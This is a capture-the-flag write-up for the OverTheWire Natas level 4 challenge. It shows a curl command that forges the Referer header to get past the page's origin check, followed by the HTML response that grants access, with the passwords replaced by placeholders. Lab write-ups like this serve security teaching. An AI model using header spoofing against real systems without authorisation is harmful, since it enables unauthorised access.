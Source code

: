 Acccording to the natas4 webpage we have to use natas4 as the username and password from the previous challenge to login.


After login we have come accross an error "Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users 
should come only from "http://natas5.natas.labs.overthewire.org/""


To get access to this we use ---


curl -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/ -u natas4:<password_of_natas4>



<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "password_of_natas4" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is passsword_of_natas5
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
